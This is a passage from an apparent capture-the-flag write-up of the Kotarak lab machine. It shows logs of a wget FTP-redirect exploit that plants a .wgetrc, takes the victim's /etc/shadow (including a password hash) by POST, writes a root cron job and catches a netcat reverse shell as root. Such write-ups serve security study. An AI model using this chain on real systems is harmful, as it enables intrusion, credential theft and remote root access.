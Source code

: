     We have a volunteer requesting /archive.tar.gz by GET :)

    Uploading .wgetrc via ftp redirect vuln. It should land in /root 

    10.0.3.133 - - [15/May/2021 13:44:01] "GET /archive.tar.gz HTTP/1.1" 301 -
    Sending redirect to ftp://anonymous@10.10.10.55:21/.wgetrc



Immediately after there's another connecting on FTP:



    [I 2021-05-15 13:44:01] 10.0.3.133:38434-[] FTP session opened (connect)
    [I 2021-05-15 13:44:01] 10.0.3.133:38434-[anonymous] USER 'anonymous' logged in.
    [I 2021-05-15 13:44:01] 10.0.3.133:38434-[anonymous] RETR /tmp/.0xdf/.wgetrc completed=1 bytes=70 seconds=0.002
    [I 2021-05-15 13:44:01] 10.0.3.133:38434-[anonymous] FTP session closed (disconnect).



Now the config file is in place, the next time the script tries to run,
I should see a POST request. It worked:



    We have a volunteer requesting /archive.tar.gz by POST :)
                                            
    Received POST from wget, this should be the extracted /etc/shadow file:   

    ---[begin]---
     root:*:17366:0:99999:7:::
    daemon:*:17366:0:99999:7:::
    bin:*:17366:0:99999:7:::
    ...[snip]...
    sshd:*:17366:0:99999:7:::
    ubuntu:$6$edpgQgfs$CcJqGkt.zKOsMx1LCTCvqXyHCzvyCy1nsEg9pq1.dCUizK/98r4bNtLueQr4ivipOiNlcpX26EqBTVD2o8w4h0:17368:0:99999:7:::
      
    ---[eof]---


    Sending back a cronjob script as a thank-you for the file...
    It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)
    10.0.3.133 - - [15/May/2021 13:46:01] "POST /archive.tar.gz HTTP/1.1" 200 -

    File was served. Check on /root/hacked-via-wget on the victim's host in a minute! :)



The `shadow` file doesn't have anything that useful in it. But hopefully
this indicates that the `cron` was written. One minute later:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.55] 48402
    bash: cannot set terminal process group (3240): Inappropriate ioctl for device
    bash: no job control in this shell
    root@kotarak-int:~# id
    uid=0(root) gid=0(root) groups=0(root)
